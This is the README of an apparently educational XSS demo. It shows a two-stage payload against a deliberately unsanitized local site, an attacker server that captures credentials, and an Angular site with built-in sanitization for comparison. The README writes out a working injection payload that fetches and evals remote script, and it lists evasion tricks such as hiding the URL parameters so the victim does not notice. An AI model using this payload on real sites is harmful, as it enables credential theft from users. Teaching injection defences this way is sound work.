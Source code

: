 # Hacking Demo
This is a XSS demo that shows how an injection attack can be extended to a two-stage payload and uses social engineering to trick the user into giving credentials.

## Outline
- About injection attacks
  - Von Neumann architecture
    - Von Neumann made this discovery while working on the Manhattan Project during WWII (influenced by Alan Turing's 1937 paper)
    - Instructions stored as data made computers flexible, but is also the capability we leverage for injection attacks today
  - SQL injection is another type
- Payload
  - First stage small/generic
  - Second stage delivers the specific replacement page and how to send the credentials to the attacker
- [Features](./attacker/3vil.js)
  - Wait a couple seconds before pwning so the website looks like the real results to the user
  - Hide injection url parameters with `window.history.pushState()` to not raise suspicion

## Insecure Site
- vanilla JS site with no sanitization
- http://127.0.0.1:8080 (`./run.sh` uses [http-server](https://www.npmjs.com/package/http-server))
- malicious payload: `cool stuff<img src="img" width="1" height="1" onerror="fetch('http://127.0.0.1:8081/3vil.js').then(res => res.text()).then(resText => eval(resText))">`
- malicious link: https://bit.ly/2Mudv7e
- link details: https://bit.ly/2Mudv7e+

## Attacker Server
- serves attack payloads and captures credentials sent from the injected page
- http://127.0.0.1:8081 (`./run.sh` uses [http-server](https://www.npmjs.com/package/http-server))

## Secure Site
- Angular application using built-in sanitization)
- http://127.0.0.1:4200 (run with `ng serve`)
- same malicious payload for the secure site: https://bit.ly/2QsSywF
